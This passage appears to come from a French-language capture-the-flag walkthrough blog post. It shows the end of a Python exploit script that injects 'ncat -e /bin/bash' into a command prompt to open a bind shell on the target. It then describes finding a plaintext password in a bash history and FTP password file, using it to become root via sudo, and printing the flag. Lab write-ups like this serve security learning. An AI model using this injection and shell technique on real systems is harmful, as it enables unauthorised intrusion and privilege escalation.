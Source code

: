 ```python
buff = buff.strip().replace("\n", "").split("CH2:")[1]
buff = b64decode(buff)
sock.send(buff)
recv_until(sock, b"CH3:")
sock.send(b64encode(b"\0"))
recv_until(sock, b"Enter a Command:")
sock.send(b"00admincmd;ncat -e /bin/bash -l -p 2222;")
buff = recv_until(sock, b"Command Executed").decode().strip()
print(buff)
sock.close()
```

Arrivée d'air chaud
-------------------

Une fois notre shell obtenu on remarque un historique bash assez chargé pour notre utilisateur *bob*.  

Les lignes suivantes sont particulièrement intéressantes :  

```bash
cd Documents/
cd .ftp
nano users.passwd
```

Ce fichier contient la ligne suivante :  

```plain
bob:b0bcat_1234567890:1100:1100::/ftp:/bin/false
```

Ce mot de passe permet de passer root via *sudo su* et ainsi obtenir le contenu de */flag.txt* :  

```plain
                   __
                  / \--..____
                   \ \       \-----,,,..
                    \ \       \         \--,,..
                     \ \       \         \  ,'
                      \ \       \         \ ``..
                       \ \       \         \-''
                        \ \       \__,,--'''
                         \ \       \.
                          \ \      ,/
                           \ \__..-
                            \ \
                             \ \
                              \ \   
                               \ \
                                \ \
                                 \ \
                                  \ \
                                   \ \
Congrats on getting root!           \ \
~c0rruptedb1t                        \ \
```

Assez amusant sans être extra, l'escalade de privilèges aurait pu être plus corsée.

*Published July 19 2019 at 18:49*
